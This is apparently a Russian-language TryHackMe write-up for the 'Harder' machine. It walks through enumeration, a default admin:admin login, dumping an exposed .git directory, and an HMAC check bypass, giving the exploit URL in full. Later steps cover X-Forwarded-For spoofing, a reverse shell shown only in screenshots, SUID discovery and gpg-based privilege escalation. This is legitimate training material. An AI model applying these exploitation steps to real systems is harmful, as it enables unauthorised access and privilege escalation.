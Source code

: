 # Harder

:white_check_mark:  [**git**](#git)

:white_check_mark: [**hmac**](#hmac)

:white_check_mark: [**hash**](#hash)

:white_check_mark: [**gpg**](#gpg)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV harder.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   4096 cf:e2:d9:27:d2:d9:f3:f7:8e:5d:d2:f9:9d:a4:fb:66 (RSA)
|_  256 1e:45:7b:0a:b5:aa:87:e6:1b:b1:b7:9f:5d:8f:85:70 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Error
|_http-server-header: nginx/1.18.0                                                        
```

Перехватываем запрос с главной страницы **harder.thm** и видим название поддомена **pwd.harder.local**. Добавляем поддомен в **/etc/hosts**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/1.png)

Теперь у нас есть доступ к панели авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_1.png)

Проходим аутентефикацию со стандартными логином и паролем **admin:admin**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_2.png)

Проверяем директории **pwd.harder.local**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2.png)

```
gobuster dir -u http://pwd.harder.local -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
[+] Url:                     http://pwd.harder.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 19:50:02 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/index.php            (Status: 200) [Size: 19926]
```

<a name="git"></a>

Находим директорию **/.git/HEAD**/. Попробуем сдампить **git** с [git-dumper](https://github.com/arthaud/git-dumper).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/3.png)

Используем команду **git checkout**. Git checkout используется для обновления заголовка с целью установки одной указанной ветви в качестве текущей ветви.
Получаем доступ к файлам:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/4.png)

<a name="hmac"></a>

Откроем файл **hmac.php**. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/5.png)

Скрипт сначала проверяет наличие **GET[‘h’]** или **GET[‘host’]**. Если один из них пуст - соединение обрывается. Затем скрипт включает файл secret.php, которого у нас нет в репозитории git. Далее, если **GET[‘n’]** не пуст, генерируется хеш-значение SHA256 с использованием метода HMAC, и ключ достается из файла secret.php, а новый хэш сохраняется в переменной $secret. Теперь, используя этот хэш в $secret в качестве ключа, генерируется хеш SHA256 параметра **GET[‘host’]** и сохраняется в переменной $hm. И, наконец, если $hm не равно **GET['h']**, соединение обрывается. Итак, теперь мы должны предсказать окончательный результат и передать его в **GET['h']**. Чтобы обойти это правило, передаем значение **GET[’n’]** как массив, который, дает значение $secret как ложное.

<a name="hash"></a>

Создаем хэш с нужными условиями: 

```
php -r "echo hash_hmac('sha256', "pwd.harder.local", false)"

hash = 5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/6.png)

Url для эксплуатации уязвимости: 

```
http://pwd.harder.local/?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local
```
![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/7.png)

Добавляем новый поддомен и заходим в аккаунт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/8.png)

Получение доступа возможно только с ip 10.10.10.x . Перехватываем запрос и модифицируем путем добавления заголовка **X-Forwarded-For: 10.10.10.10**, который позволит обойти проверку ip. [Расширение](https://addons.mozilla.org/ru/firefox/addon/x-forwarded-for-injector/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) в Firefox позволяет подставлять этот заголовок автоматически.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/9.png)

Получаем доступ к "консоли". 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/10.png)

Кидаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/12.png)

Находим файлы к которым имеет доступ пользователь www.
```
find / -type f -user www 2>/dev/null
```

Find находит интересный файл, выведем его в консоль.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/13.png)

Теперь мы имеем доступ к машине по ssh. Пробуем найти файлы сожержащие **SUID**.
```
find / -perm -u=s 2>/dev/null
```
<a name="gpg"></a>

Просмотрим содержимое скрипта. Нужен ключ gpg.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/14.png)

Ключ gpg находится в **/var/backups**. Импортируем ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/15.png)

## Privilege escalation

Создадим файл с командой, зашифруем ключом gpg, используем скрипт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/16.png)
